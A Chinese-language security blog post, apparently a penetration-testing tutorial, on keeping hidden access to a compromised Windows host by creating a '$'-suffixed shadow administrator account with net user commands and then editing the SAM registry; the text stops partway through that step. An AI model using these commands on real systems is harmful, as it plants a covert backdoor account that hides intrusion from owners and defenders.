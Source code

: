 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/7k-xFL1fb6trlBozbU_JFQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/3RhuVysG9LebHs2DGyKAEgZupcIbXWAgnQlIoLerewyAX3c3bLLg0iaTpJeUuGKrSWsicRvLMXwCIbhkUC8GqGibg/640?wx_fmt=gif)

原创稿件征集

  

邮箱：edu@antvsion.com

QQ：3200599554

黑客与极客相关，互联网安全领域里

的热点话题

漏洞、技术相关的调查或分析

稿件通过并发布还能收获

200-800 元不等的稿酬

**0x00 前言**  

在渗透过程中拿下一台主机后很多时候会选择开 3389 进远程桌面查看一下对方主机内有无一些有价值的东西可以利用，但是这也引出了一个问题，只要是登录进程就一定会留下痕迹，虽然在渗透完成后可以通过痕迹清理的方法清除自己登录的 "证据"，但是在多次渗透的过程中我不禁产生了思考，有没有一种方法能够最大化的隐藏自己登陆过对方主机呢，于是便有了下文。

**0x01 隐藏用户（影子用户）的创建与利用进行权限维持**

这里先提一个概念，在 windows 环境下创建用户如果后面带了一个 "$" 符号，在 net user 时默认是不显示的，下文基于这个特性展开 

利用条件：①获得管理员权限；②得到 cmdshell 等 shell 环境 (即管理员 cmd)

操作步骤（我这里以 Windows10 为例）：

1. 首先利用 cmdshell 添加一个用户名带 $ 的用户，如：admin$：123456

命令如下：

```
net user admin$ 123456 /add #添加用户admin$
net localgroup administrators admin$ /add #将admin$用户添加到管理员组administrators
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9Bmdt9KGVibYJY7KBGLlyO0cYuGBacKlibRVSWD9KhTxTfEKdRicaf9L4hGSQkAnWJpPjYCaGtEic4bw/640?wx_fmt=png)  

 使用命令 net user 查看用户发现并没有这个用户

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9Bmdt9KGVibYJY7KBGLlyO0uJoT2KiaLCg4ics7dsDxRjAG5FSC3Czbniaexm1IfOwia3QT7DQe7ULxAg/640?wx_fmt=png)

 此时可以直接登录 3389 进行操作，但隐蔽性仍不足，可以在控制面板的管理工具中用户与用户组查看到该用户的存在，还需要进一步操作

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9Bmdt9KGVibYJY7KBGLlyO0ExoRKHZrpmgpxa1MDvuLGbWbCMIbdLjWP5zBZvfabCuibibiaWfnib5Sicg/640?wx_fmt=png)

2. 对注册表进行修改，在命令提示符与管理工具中无法查看

当你利用 shell 创建了一个影子用户的时候，利用这个影子用户可以开启 3389 进行登录，在目标机上对注册表进行数据操作，达到提高影子用户的隐蔽性

利用 运行 输入 regedit 打开注册表 ，找到如下图的 SAM

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9Bmdt9KGVibYJY7KBGLlyO0BcmvicyRu5ktUpYV0nelSRoWHszMQIg2ia9ZtJ8kogF34EWuibay5jP8A/640?wx_fmt=png)
